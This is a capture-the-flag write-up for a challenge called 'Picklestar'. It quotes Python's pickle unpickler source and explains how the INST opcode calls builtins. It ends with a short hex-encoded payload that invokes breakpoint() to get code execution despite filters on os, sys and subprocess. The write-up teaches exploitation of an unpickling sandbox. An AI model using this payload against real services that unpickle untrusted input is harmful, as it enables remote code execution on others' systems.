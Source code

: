 # Picklestar writeup

Let's take a look at the pickle source

```python
    # INST and OBJ differ only in how they get a class object.  It's not
    # only sensible to do the rest in a common routine, the two routines
    # previously diverged and grew different bugs.
    # klass is the class to instantiate, and k points to the topmost mark
    # object, following which are the arguments for klass.__init__.
    def _instantiate(self, klass, args):
        if (args or not isinstance(klass, type) or
            hasattr(klass, '__getinitargs__')):
            try:
                value = klass(*args)
            except TypeError as err:
                raise TypeError('in constructor for %s: %s' %
                                (klass.__name__, str(err)), err.__traceback__)
        else:
            value = klass.__new__(klass)
        self.append(value)

    def load_inst(self):
        module = self.readline()[:-1].decode('ascii')
        name = self.readline()[:-1].decode('ascii')
        klass = self.find_class(module, name)
        self._instantiate(klass, self.pop_mark())
    dispatch[INST[0]] = load_inst

    def load_obj(self):
        # Stack is ... markobject classobject arg1 arg2 ...
        args = self.pop_mark()
        cls = args.pop(0)
        self._instantiate(cls, args)
    dispatch[OBJ[0]] = load_obj

    def load_global(self):
        module = self.readline()[:-1].decode('utf-8')
        name = self.readline()[:-1].decode('utf-8')
        klass = self.find_class(module, name)
        self.append(klass)
    dispatch[GLOBAL[0]] = load_global

    
    def load_reduce(self):
        stack = self.stack
        args = stack.pop()
        func = stack[-1]
        stack[-1] = func(*args)
    dispatch[REDUCE[0]] = load_reduce
```

We can achieve rce with a combination of:
* _instantiate()
* find_class
    
There are two different solutions:
* using `INST`
* using `OBJ + GLOBAL`: we need obj to use _instantiate which would load the class instance, otherwise global will just call the attribute without loading it

But for the OBJ/GLOBAL we would have to also push strings, which is not allowed.

Furthermore, os/sys/subprocess are not allowed and we can only make up to 3 commands.

The trick here is to execute the `breakpoint()` builtin function and continue from there, which would take only 2 commands.
```python
p = b'('  # MARK
p += b'i__builtin__\nbreakpoint\n'  # INST
p = binascii.hexlify(p).decode('utf-8')
```

